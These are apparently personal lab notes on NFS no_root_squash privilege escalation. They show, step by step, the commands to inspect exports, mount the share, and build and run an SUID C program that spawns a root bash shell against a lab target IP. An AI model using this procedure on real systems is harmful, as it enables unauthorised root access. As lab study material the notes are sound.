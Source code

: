 ```bash
cat /etc/exports
```
If we see **no_root_squash,** this means that the folder attached is shareable and can be mounted. If we connect to the file share as root, any file that we make in the share will be owned by root and if we add the SUID bit it will be ran as root.
![[Pasted image 20250214220356.png]]
On our machine
```bash
showmount -e 10.129.2.210   <---- Target IP
sudo mount -o rw,vers=3 10.129.2.210:/tmp /tmp/mountme
```

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/mountme/p.c
```

On compromised host
```bash
gcc /tmp/p.c -o /tmp/p  
```

On our machine
```bash
sudo chmod +s /tmp/mountme/p
```

On compromised host
```bash
/tmp/p
```